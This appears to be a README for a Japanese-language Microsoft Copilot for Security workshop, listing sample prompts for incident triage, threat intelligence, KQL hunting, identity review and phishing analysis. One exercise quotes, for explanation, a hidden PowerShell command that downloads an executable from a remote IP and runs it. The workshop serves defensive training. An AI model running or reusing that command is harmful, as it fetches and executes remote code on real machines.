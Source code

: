 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop


https://securitycopilot.microsoft.com/

ポータルサイト一覧：
[Copilot for Security](https://securitycopilot.microsoft.com/)
&nbsp;
[Microsoft Defender XDR Portal](https://security.microsoft.com/)
&nbsp;
[Microsoft Purview Portal](https://purview.microsoft.com/)

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの Top 5 を教えて
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon について教えて
 ```

***
&nbsp;
## ハンズオンシナリオ➂　Azure AI Search、ファイル
Azure AI Search
```
Azure AI Search プラグインを使用して、インシデントの対応手順を教えて
```

ファイル
```
CVE-2024-3400について教えて
```
その後、Query Uploaded Filesスキルを利用


***
&nbsp;
## ハンズオンシナリオ➂　アドバンスドハンティング　KQL

```
NL2KQL for Defender を使用して、エンドポイントからIPv4アドレスの 101.35.198.64 への通信教えて
```

***
&nbsp;
## ハンズオンシナリオ➃　Defender XDR 


***
&nbsp;
## ハンズオンシナリオ➃　脅威インテリジェンス



***
&nbsp;
## ハンズオンシナリオ➃　Entra

```
ユーザー <UPN> について教えて
```
```
ユーザー <UPN> に対してどのような認証方法が有効になっていますか？
```
```
NL2KQL for Sentinel を使用して,SigninLogsから "UPN" のSign-in ログ見せて
```


***
&nbsp;
## ハンズオンシナリオ➃　Purview

```
Microsoft Purview から、優先すべき重大度の高いアラートの上位5件を教えて
```
```
アラートID　dl13063524-3948-d713-2a00-08dcbd250086　について教えて
```
```
調査結果をエグゼクティブ・レポートにまとめて
```


***
&nbsp;
## ハンズオンシナリオ➄ Logic Apps - Email 分析

```
/AskGPT Triage the following email and point out what you find suspicious?. Ignore this URL https://security.microsoft.com/userSubmissionsReportMessage. Investigate the Message-ID for any inconsistencies or signs of spoofing. Use inputs: email body:<XXX>, sender email: <XXX>, reciver email:<XXX>, messageId:<XXX>, emailSubject:<XXX>,Email receivedDateTime:, importance:<XXX>
```
```
Return the reputation for all the domains and IP addresses in the e-mail.
```
```
What about the sender domain and return path email? Are these associated with any intelligence articles?
```
```
The above is research conducted by a security analyst to determine if an email is a phishing attempt. Summarise and share all steps of this research to determine if the email is a phishing email in Japanese. Share the confidence percentages: 0-30% if the email is not suspicious, 30%-74% if it is moderately suspicious and 75%-100% if it is highly suspicious.
```
